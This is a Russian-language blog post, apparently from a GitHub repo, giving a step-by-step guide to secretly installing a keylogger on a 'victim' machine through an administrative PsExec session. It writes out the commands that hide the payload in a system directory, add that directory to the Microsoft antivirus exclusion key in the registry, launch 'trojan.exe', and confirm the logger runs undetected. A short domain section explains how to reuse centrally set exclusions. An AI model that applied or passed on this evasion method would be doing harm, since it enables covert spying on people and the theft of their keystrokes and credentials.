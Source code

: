 ```yaml
---
title: "Удалённая установка кейлоггера на компьютер с Microsoft Security Essentials или System Center Endpoint Protection"
date: 2015-02-15
layout: default
---
```


**Дано:** Сессия PsExec (либо любая другая) с административными привилегиями на машине жертвы. У жертвы установлен Microsoft Security Essentials либо System Center Endpoint Protection.  
**Задача:** Незаметно для жертвы установить кейлоггер.  
  
Разберём неправильный и правильный способ решения данной задачи.  
  


###  **Неправильный способ**

**  
**

Для начала проверим, что произойдёт, если попробовать установить логгер "в лоб" без всяких ухищрений. Собираем бинарник, задаём в качестве рабочей директории что-нибудь неприметное, например  **c:\Windows\SysWOW64\WindowsPowerShell\**  
  
1\. Открываем сессию PsExec  
  
[![](images/1.1.jpg)](images/1.1.jpg)  
  


2\. Кидаем установщик логгера в директорию **c:\Windows\SysWOW64\WindowsPowerShell\**  и запускаем  
  
**c:\Windows\SysWOW64\WindowsPowerShell\trojan.exe**  
**  
**  


[![](images/8.1.jpg)](images/8.1.jpg)  


  


Ищем процесс кейлоггера

  


**tasklist /fi "IMAGENAME eq VME.exe"**

  


[![](images/3.jpg)](images/3.jpg)

  


  


  
  
  
Его нет. А почему? Да потому что, антивирус успешно отработал и радостно сообщил об этом жертве.

  


[![](images/4.jpg)](images/4.jpg)

  


  


[![](images/5.jpg)](images/5.jpg)

  


  
  
Операция провалена...

  


###  Правильный способ

  


Теперь пойдём другим путём и установим логгер в директорию, которая не будет проверятся антивирусом.  
  
Список исключений для Microsoft Security Essentials хранится в ключе реестра **HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths**  
  
1\. Для начала проверим его содержимое

  


**reg query "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths"**

  


[![](images/6.jpg)](images/6.jpg)

  


  


  
  
  
  
  
  
В данном случае список исключений пуст.  

  


2. Добавим в исключения директорию **c:\Windows\SysWOW64\WindowsPowerShell\**

  


**reg add "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths" /v c:\Windows\SysWOW64\WindowsPowerShell\ /d "1" /t REG_DWORD**

  


и проверим результат

  


**reg query "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths"**

  


  


[![](images/7.1.jpg)](images/7.1.jpg)

  
  
3\. Помещаем логгер в выбранный нами каталог и запускаем его

  


**c:\Windows\SysWOW64\WindowsPowerShell\trojan.exe**

  


[![](images/8.1.jpg)](images/8.1.jpg)

  


Проверяем результат:

  


**tasklist /fi "IMAGENAME eq VME.exe"**

  


[![](images/9.jpg)](images/9.jpg)

  


PROFIT! Логгер запущен, а антивирус жертвы ни о чём не подозревает

  


[![](images/10.jpg)](images/10.jpg)

  


  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  


### 

###    


###  Поправка на домен

  


В случае когда жертва является членом домена AD и вместо **Essentials** у неё установлен **System Center Endpoint Protection** , логика действий будет немного другой. Endpoint Protection, как и  Essentials хранит исключения в HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths, но их список, скорее всего, будет настроен централизованно через политики защиты. В этом случае наши изменения будут перезаписаны после повторного применения политики, поэтому у нас есть два варианта действий:  


  * Если список исключений задан (в реестре есть какие-либо записи) устанавливаем логгер в любой из перечисленных там каталогов;
  * Если список исключений не задан (записи в реестре отсутствуют) то политика исключений не настроена и мы можем смело вписывать туда нужный нам каталог.



В остальном порядок действий ничем не отличается. 
